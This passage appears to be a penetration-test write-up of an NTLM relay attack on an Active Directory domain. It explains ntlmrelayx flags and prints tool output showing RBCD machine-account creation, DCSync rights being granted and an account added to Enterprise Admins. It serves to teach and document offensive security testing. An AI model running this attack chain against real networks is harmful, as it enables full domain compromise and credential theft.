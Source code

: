 The command flags break down as follows:

- `-t ldap://dc-server01.corp.local:389`: Target the LDAP service on the domain controller
- `--delegate-access`: Attempt to configure delegation rights on created computer accounts
- `--no-smb-server`: Don't start an SMB server, as we're using Responder for credential capture

### Successful Relay and Computer Account Creation

After running the relay setup for some time, I captured and successfully relayed an authentication attempt from a workstation account:

```
[*] HTTPD(80): Connection from 192.168.0.99 controlled, attacking target ldap://dc-server01.corp.local:389
[*] HTTPD(80): Authenticating against ldap://dc-server01.corp.local:389 as CORP\WORKSTATION-690$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
```

The relay was successful, and ntlmrelayx automatically attempted to leverage this access by creating computer accounts:

```
[*] Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
[*] Attempting to create computer in: CN=Computers,DC=corp,DC=local
[*] Adding new computer with username: ATTACKER-PC01$ and password: s0m3p455w0rd result: OK
[*] Delegation rights modified succesfully!
[*] ATTACKER-PC01$ can now impersonate users on WORKSTATION-690$ via S4U2Proxy
[*] Adding new computer with username: ATTACKER-PC02$ and password: s0m3p455w0rd result: OK
[*] Delegation rights modified succesfully!
[*] ATTACKER-PC02$ can now impersonate users on WORKSTATION-690$ via S4U2Proxy
```

This was critical - the tool successfully created two machine accounts with delegation rights, meaning they could impersonate users on the targeted workstation through Resource-Based Constrained Delegation (RBCD).

The S4U2Proxy reference in the output refers to "Service for User to Proxy" - a Kerberos extension that allows a service to request tickets on behalf of users. While designed for legitimate scenarios like front-end web servers accessing backend resources, when misconfigured, it becomes a powerful privilege escalation vector.

### Escalating to DCSync Privileges

Even more importantly, the relay attack was able to modify domain ACLs to grant DCSync privileges to one of the created accounts:

```
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Querying domain security descriptor
[*] Success! User ATTACKER-PC02$ now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20250514-052034.restore
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Adding user: ATTACKER-PC02$ to group Enterprise Admins result: OK
[*] Privilege escalation successful, shutting down...
```
